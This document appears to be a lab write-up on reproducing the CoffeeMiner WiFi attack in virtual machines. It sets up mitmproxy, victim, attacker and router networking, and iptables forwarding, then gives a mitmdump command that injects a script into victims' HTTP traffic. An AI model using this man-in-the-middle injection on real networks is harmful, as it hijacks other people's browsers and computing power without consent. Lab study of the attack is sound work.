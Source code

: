 https://www.youtube.com/watch?v=wmYJ6Z4LoCA
http://arnaucube.com/blog/coffeeminer-hacking-wifi-cryptocurrency-miner.html
https://github.com/arnaucube/coffeeMiner
https://github.com/arnaucube/coffeeMiner/blob/master/virtualbox_scenario_instructions.md

## 1. Mitmproxy
https://mitmproxy.org/
https://docs.mitmproxy.org/stable/
 
```
root@kali:~# mitmproxy --version
Mitmproxy: 4.0.4
Python:	3.6.8
OpenSSL:   OpenSSL 1.1.1a  20 Nov 2018
Platform:  Linux-4.19.0-kali1-amd64-x86_64-with-Kali-kali-rolling-kali-rolling
root@kali:~# mitmdump --version
Mitmproxy: 4.0.4
Python:	3.6.8
OpenSSL:   OpenSSL 1.1.1a  20 Nov 2018
Platform:  Linux-4.19.0-kali1-amd64-x86_64-with-Kali-kali-rolling-kali-rolling
```

### 1.1 Local setup test
https://medium.com/max-greenwalds-blog/mitmproxy-your-d-i-y-private-eye-864c08f84736
https://juejin.im/post/5ac9ea6d518825364001b5b9
https://blog.heckel.xyz/2013/07/01/how-to-use-mitmproxy-to-read-and-modify-https-traffic-of-your-phone/

Run mitmproxy

![](/docs/docs_image/coder2hacker/realcase/mitm01.png)
![](/docs/docs_image/coder2hacker/realcase/mitm02.png)

Open mitm.it
https://github.com/mitmproxy/mitmproxy/issues/3034
Workaround was navigating to http://mitm.it/cert/pem

![](/docs/docs_image/coder2hacker/realcase/mitm03.png)


### 1.2 Coffeeminer test

**Victim**

![](/docs/docs_image/coder2hacker/realcase/mitm04.png)
![](/docs/docs_image/coder2hacker/realcase/mitm05.png)

```
root@kali:~# vim /etc/network/interfaces
root@kali:~# /etc/init.d/networking restart
[ ok ] Restarting networking (via systemctl): networking.service.
root@kali:~# cat /etc/network/interfaces
# This file describes the network interfaces available on your system
# and how to activate them. For more information, see interfaces(5).

source /etc/network/interfaces.d/*

# The loopback network interface
auto lo
iface lo inet loopback

auto eth0
iface eth0 inet static
	address 192.168.134.4
	netmask 255.255.255.0
	gateway 192.168.134.6

```
![](/docs/docs_image/coder2hacker/realcase/mitm06.png)

Script
Param https://github.com/mitmproxy/mitmproxy/blob/master/examples/simple/custom_option.py
https://docs.mitmproxy.org/stable/addons-options/

**Attacker**

![](/docs/docs_image/coder2hacker/realcase/mitm07.png)
![](/docs/docs_image/coder2hacker/realcase/mitm08.png)
```
root@kali:~# cat /etc/network/interfaces
# This file describes the network interfaces available on your system
# and how to activate them. For more information, see interfaces(5).

source /etc/network/interfaces.d/*

# The loopback network interface
auto lo
iface lo inet loopback

auto eth0
iface eth0 inet static
	address 192.168.134.3
	netmask 255.255.255.0
	gateway 192.168.134.6

```
![](/docs/docs_image/coder2hacker/realcase/mitm09.png)


**Router**

![](/docs/docs_image/coder2hacker/realcase/mitm10.png)

```
#Dhclient etho0
root@kali:~# vim /etc/network/interfaces
root@kali:~# /etc/init.d/networking restart
[....] Restarting networking (via systemctl): networking.serviceJob for networking.service failed because the control process exited with error code.
See "systemctl status networking.service" and "journalctl -xe" for details.
 failed!


oot@kali:~# cat /etc/network/interfaces
# This file describes the network interfaces available on your system
# and how to activate them. For more information, see interfaces(5).

source /etc/network/interfaces.d/*

# The loopback network interface
auto lo
iface lo inet loopback

auto eth0
iface eth0 inet dhcp

auto eth1
iface eth1 inet static
	address 192.168.134.6
	netmask 255.255.255.0
```

![](/docs/docs_image/coder2hacker/realcase/mitm11.png)

![](/docs/docs_image/coder2hacker/realcase/mitm12.png)

**Start**

router_kali
```
root@kali:~# iptables --flush
root@kali:~# iptables --table nat --flush
root@kali:~# echo 1 > /proc/sys/net/ipv4/ip_forward
root@kali:~# iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
root@kali:~# iptables -A FOWARD -i eth0 -o eth1 -j ACCEPT
iptables v1.8.2 (nf_tables): Chain 'FOWARD' does not exist
root@kali:~# iptables -A FORWARD -i eth0 -o eth1 -j ACCEPT
root@kali:~# iptables -A FORWARD -i eth1 -o eth0 -j ACCEPT
```

Attack
```
vim /etc/ssh/sshd_config
PemitRootLogin yes
systemctl restart ssh.service
```

![](/docs/docs_image/coder2hacker/realcase/mitm13.png)

mitmdump -s injector.py --set custom='http://127.0.0.1:8000/script.js'

## troubleshooting

mitmdump was not found https://github.com/arnaucube/coffeeMiner/issues/26
/usr/bin/mitmdump no such script https://unix.stackexchange.com/questions/446289/mitmdump-error-usr-bin-mitmdump-no-such-scripts
unrecognized arguments: -T https://github.com/arnaucube/coffeeMiner/issues/28

## Applications 
https://engineering.linecorp.com/en/blog/auto-inspecting-testing-with-google-analytics/


